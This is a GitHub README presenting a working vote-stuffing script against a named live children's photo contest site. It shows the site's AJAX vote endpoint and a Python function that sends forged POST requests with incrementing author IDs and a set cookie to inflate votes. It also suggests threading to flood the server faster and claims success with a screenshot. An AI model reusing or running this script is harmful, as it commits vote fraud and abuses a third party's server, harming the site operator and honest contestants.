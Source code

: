 # vote_increaser_on_a_site

**Site_url: [https://little1.in/]**

This is test user => [https://little1.in/contest/madhav-sethi-aam-ke-peti-3857/]

this site is a spam site which get trafic by a some child photos compitition
so i hack its database api - because it have some loopholes 
1: **it provides a ajax code in html file**
```bash
var data = {
 'action': 'vote_form_data',
 'contestid': contestid,
 'authorid': authorid,
  'name': name
}
jQuery.ajax({
  url:"https://little1.in/wp-admin/admin-ajax.php",
	type: 'POST',
	data: data}
```
**next**
just to figure out the **contestid,authorid,name** values to send post request 

it turns out that **name = ''** blank here and

**contestid** is in the end of the url itself 

so just to get **authorid** 
which is provided in html tag

<img src="https://github.com/rishabhjainfinal/vote_increaser_on_a_site/blob/master/Screenshot%20(68).png" >

SO FOR EACH VOTE YOU HAVE TO ADD +1 IN YOUR **authorid**  ALTHOUGH IT ALSO ADD A VOTE WHEN REQUESTED FROM SAME **authorid**   ¯\\_(ツ)_/¯ 

***next***

and then i make a simple script to fetch current votes 
```bash
def votes(url):
	source = urllib.request.urlopen(url).read()
	soup = bs.BeautifulSoup(source,features="html.parser")
	for i in soup.select('div.blog-item'):
		votes=i.p.strong.text
	return votes

```

you can also use **threading** to get things faster and more excited jsut un-comment all the threading lines code and comment the the increaser call funtion you will see it when you see the file
i don't have the power and internet speed to do but i tested it wooks fine 

```bash
def increaser(n):
	database_url = "https://little1.in/wp-admin/admin-ajax.php"
	contestid=url.split('/')[-2].split('-')[-1]

	payload = f'action=vote_form_data&contestid={contestid}&authorid={n}&name='
	headers = {
	  'Content-Type': 'application/x-www-form-urlencoded',
	  'Cookie': 'sitename_newvisitor=1; voteStatus-4233=4233'
	}

	response = requests.request("POST", database_url, headers=headers, data = payload)
```

this funtion will send request to the databasse of site and take **contestid** as arg 

**thats all**
we spam the spamer


all the require modues are here install them by pip install {module name}
```bash
requests
bs4
urllib.request
threading
```

**sucess example**

<img style='display:block' src="https://github.com/rishabhjainfinal/vote_increaser_on_a_site/blob/master/Screenshot%20(69).png" >
